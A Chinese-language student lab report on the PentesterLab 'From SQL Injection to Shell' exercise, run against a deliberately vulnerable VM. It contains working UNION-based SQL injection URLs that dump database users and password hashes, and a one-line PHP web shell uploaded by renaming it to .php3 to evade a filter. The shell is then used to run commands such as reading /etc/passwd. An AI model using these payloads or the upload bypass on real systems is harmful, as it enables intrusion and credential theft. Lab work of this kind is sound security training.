



# chap0x07 从SQL注入到Shell 实验报告

## 1、 网络设置

本次实验使用了两台虚拟机

- 靶机 网卡设置：host-only 

    - IP ：192.168.56.102

- 攻击机 网卡设置：host-only

    - IP ：192.168.56.103

## 2、 实验过程

本次实验分为以下几步进行：

1. 环境的搭建

    本次实验完全在虚拟机环境中进行，使用了两台虚拟机，一台是我之前配置好的kali虚拟机，作为本次实验的攻击机。另一台靶机从`pentesterlab`上下载的iso进行安装

    安装过程:

    1. [下载iso](https://pentesterlab.com/exercises/from_sqli_to_shell)

    2. 安装iso，使用 Liunx->Ubuntu，选择host-only模式

    3. 安装完成后，启动虚拟机，查看相关的配置，IP地址正常分配

    4. 在攻击者主机上对靶机进行访问，如果能正常访问，说明实验环境正常

- 攻击者主机、靶机的网络设置

- 攻击者主机访问靶机,返回预期的页面

2. 攻击前侦测

- 使用nmap查考靶机上端口开放情况,可以看到22和80端口是开启的

        nmap 192.168.56.102

- 尝试连接端口，telnet无法进行连接，但nc可以

        telnet 192.168.56.102 80

        nc 192.168.56.102 80

- 对网页的网站源代码等进行分析，发现其后端使用了PHP

- 网站内容没有再分析得到更多的东西，之后尝试使用wfuzz尝试进行爆破

        wfuzz -c -w /usr/share/wfuzz/wordlist/general/common.txt --hc 404,403 http://192.168.56.102/FUZZ

        # -c 带颜色输出

        # -w kali自带暴力破解的字典文件，使用该文件

        # --hc 隐藏特殊响应

- 找到可疑的网页进行测试，修改`id=`的值，观察返回的页面信息

- 观察的时候发现,`id=2`和`id=2-1`返回的页面是不一样的，说明这个地方可能存在SQL注入点

3. 开始进行SQL注入

- 我们希望能获取到数据库的列数和列名，尝试使用`order by x`进行分析，x为阿拉伯数字

- 经过尝试之后，我们可以发现`x`为1~4的时候能正常返回图片，但为5时却返回了错误信息，说明数据库表有4列

        192.168.56.102/cat.php?id=1 order by 1
        192.168.56.102/cat.php?id=1 order by 2
        192.168.56.102/cat.php?id=1 order by 3
        192.168.56.102/cat.php?id=1 order by 4

- 根据返回的数据有四列，我们可以使用`union select 1,2,3,4`来查看返回图片名字的是哪一列，从实验结果截图中可以看出，返回了`2`。

- 则在后面的sql注入中，我们修改`2`中的信息来获取获取数据库中的其他内容

        192.168.56.102/cat.php?id=1 UNION SELECT 1,2,3,4

- 通过修改`2`的值来获取数据库版本、用户信息等

        192.168.56.102/cat.php?id=1 UNION SELECT 1,current_user(),3,4

        192.168.56.102/cat.php?id=1 UNION SELECT 1,@@version,3,4

        192.168.56.102/cat.php?id=1 UNION SELECT 1,database(),3,4

- 查看数据的所有表名，和表的列名

        192.168.56.102/cat.php?id=1 UNION SELECT 1,table_name,3,4 FROM information_schema.tables

        192.168.56.102/cat.php?id=1 UNION SELECT 1,column_name,3,4 FROM information_schema.columns

- 但为了方便把表和列进行对应，所以将其一起输出

- 得到输出结果后，`ctrl F`进行有关密码的关键词搜索，发现有相关内容，猜测其存有我们所想要获得的密码信息

        192.168.56.102/cat.php?id=1 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns

- 在知道可能是目标的表后，想办法得到表中的数据

        192.168.56.102/cat.php?id=1 UNION SELECT 1,concat(login,':',password),3,4 FROM users;

- 在获取到用户名和密码后，密码是一串乱码的字符串，使用其进行登录，发现登录失败

- 猜测其为哈希值，使用在线网站尝试进行破解，得到一串有意义的字符串，再次尝试登录，登录成功，则管理员名为`admin`，密码为`P4ssw0rd`

- 登录后，页面如下

4. 上传webshell

- 在本地创建`.php`，文件内容如下

        <?php
        system($_GET['cmd']);
        ?>

- 尝试上传php文件到服务器端，但提示上传失败，不能直接上传PHP文件

- 尝试绕过检测，修改文件后缀为`.php3`，这次成功上传

- 上传成功后，即可直接用url执行cmd参数的命令

        192.168.56.102/admin/uploads/shell.php3?cmd=cat /ect/passwd

        192.168.56.102/admin/uploads/shell.php3?cmd=uname

## 3、实验参考

[From SQL Injection to Shell](https://pentesterlab.com/exercises/from_sqli_to_shell/course)

[Wfuzz 使用](https://blog.csdn.net/hardhard123/article/details/79596104)

